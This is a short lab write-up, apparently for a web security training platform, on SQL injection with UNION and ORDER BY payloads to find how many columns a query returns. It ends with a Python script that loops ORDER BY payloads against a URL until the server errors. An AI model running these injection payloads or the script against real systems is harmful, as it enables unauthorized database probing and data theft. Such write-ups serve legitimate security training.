



# SQL injection UNION attack, determining the number of columns returned by the query

**Level:** <mark style="color:blue;">**Practitioner**</mark>

<figure><figcaption></figcaption></figure>

* In the following, we need to enumerate the number of columns that are in the database in use.

<figure><figcaption></figcaption></figure>

* We can do that by using the following union select payload.
* After " **'union select** " write NULL spaces followed by a coma, and when the server throws back an **"Internal Server Error"** it means that we passed through the number of columns, the number of columns is the number of NULL spaces.

<figure><figcaption></figcaption></figure>

* Here we can see that the database that we are using haves 3 columns, thanks to the number of NULL spaces.
* We can do the same with an "**order by**".
* I create a simple python script that **enumerates** how many columns are in the _**DB**_ by just passing the URL, retrieves the payload used.

<figure><figcaption></figcaption></figure>

* This will be useful in case where the columns are a huge number.

```python
#!/usr/bin/python3

import requests

url = '<url>'

orderby_ = "' order by "

print("[+] Enumerating Columns")

for i in range(1, 100):

        orderby_ = f"' order by %d" % i

        sqli_column_enum = url + orderby_ + "--"

        r = requests.get(sqli_column_enum)

        if "Internal Server Error" in r.text:
                i = i - 1
                null = 'NULL'
                print(f"[+] number of columns %d \n" % i)

                sqli_column_enum = url + "' order by " + f'%d' % i + '--'

                print("[=] Order by Payload : ", sqli_column_enum)
                break

```
